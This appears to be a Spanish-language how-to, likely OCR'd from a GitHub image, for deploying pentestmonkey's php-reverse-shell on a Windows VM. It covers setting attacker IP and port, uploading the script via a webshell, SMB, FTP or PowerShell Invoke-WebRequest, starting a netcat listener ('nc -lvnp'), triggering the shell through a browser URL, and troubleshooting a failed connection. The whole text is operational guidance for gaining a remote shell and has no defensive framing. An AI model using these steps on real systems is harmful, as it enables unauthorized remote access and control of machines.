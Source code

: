 **Procedimiento para subir y activar php-reverse-shell en Windows VM**

---

### 1. Preparar php-reverse-shell

* Descargar script php-reverse-shell de repositorio oficial (por ejemplo, pentestmonkey).
* Modificar las variables de conexión:

  ```php
  $ip = '<Atacker-IP>';  
  $port = <PORT>;
  ```

---

### 2. Subir php-reverse-shell a Windows VM

* Usar uno de los métodos:

  * Webshell con upload (si disponible).
  * SMB share, FTP, o herramienta de transferencia (e.g., PowerShell `Invoke-WebRequest`).
  * Exploits con upload o scripts base (según contexto).

---

### 3. Configurar listener en atacante

```bash
nc -lvnp <PORT>
```

* Abrir puerto `<PORT>` esperando conexión entrante.

---

### 4. Ejecutar php-reverse-shell en Windows VM

* Acceder vía navegador a la URL donde se ubicó el php-reverse-shell (ejemplo: `http://windows-vm/shell.php`).
* PHP ejecuta conexión reverse shell hacia atacante.

---

### 5. Diagnóstico

* Si listener recibe conexión, shell interactiva establecida.
* Si no funciona:

  * Revisar firewall Windows.
  * Verificar que PHP esté instalado y funcionando (versión compatible).
  * Comprobar que puerto y IP estén accesibles desde Windows.
  * Confirmar que script php no tenga errores sintácticos.
  * Probar ejecución local del script (CLI) si es posible.

---

### 6. Alternativas

* Si falla, probar otros métodos de reverse shell en PHP o PowerShell.
* Recolectar información del entorno: versión PHP, permisos, logs.

---